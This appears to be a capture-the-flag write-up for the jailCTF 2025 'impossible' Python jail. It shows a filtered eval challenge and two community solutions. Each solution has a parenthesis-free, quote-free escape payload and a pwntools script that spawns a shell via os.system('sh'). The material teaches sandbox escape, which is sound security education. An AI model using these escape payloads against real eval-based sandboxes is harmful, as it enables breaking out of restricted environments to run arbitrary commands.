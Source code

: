 # jailCTF 2025 impossible

```python
#!/usr/local/bin/python3
eval(''.join(c for c in input('> ') if c in "abcdefghijklmnopqrstuvwxyz:_.[]"))
```

Requirements:

1. No parens: use `obj.__class__.__getitem__ = func` and `obj[arg]` to call function
2. No spaces or equal signs: use `[[]for[a]in[[b]]]` instead of `a = b`
3. No strings: set `obj.__class__.__getattr__ = __import__` and `obj.os` to import `os`

## Solution 1: __import__('os').system('sh')

Writeup by @Coppermine on Discord:

```python
[[copyright.sh]for[[[copyright.__class__.__getattr__]]]in[[[[copyright.os.system]for[copyright.__class__.__getattr__]in[[__import__]]]]]]
```

The idea here is to utilize that `a.b` is essentially `a.__class__.__getattr__("b")`, so we can pass string arguments without quotes.

Attack script:

```python
from pwn import *

# solution #1
p = process(["python3", "main.py"])
# __import__('os').system('sh')
p.sendline(
    b"[[copyright.sh]for[[[copyright.__class__.__getattr__]]]in[[[[copyright.os.system]for[copyright.__class__.__getattr__]in[[__import__]]]]]]"
)
p.interactive()
```

## Solution 2: eval(input(license))

Writeup by @xtea418 on Discord:

```python
[[help[quit[license]]]for[help.__class__.__getitem__]in[[eval]for[quit.__class__.__getitem__]in[[input]]]]
```

The idea is to call functions with parens using `[[]for[a]in[[b]]]` primitive. Previously in [pyjail cheatsheet](shirajuki.js.org/blog/pyjail-cheatsheet/) we know that we can do `[[]for a in[b]]`, but the spaces are required. The extra `[]` layer makes it work without spaces.

The rest is simply converting `eval(input(license))` to `help[quit[license]]` where `quit[arg]` calls `input(arg)` and `help[arg]` calls `eval(arg)`.

Attack script:

```python
from pwn import *

# solution #2
p = process(["python3", "main.py"])
# eval(input(license))
p.sendline(
    b"[[help[quit[license]]]for[help.__class__.__getitem__]in[[eval]for[quit.__class__.__getitem__]in[[input]]]]"
)
p.sendline(b"__import__('os').system('sh')")
p.interactive()
```
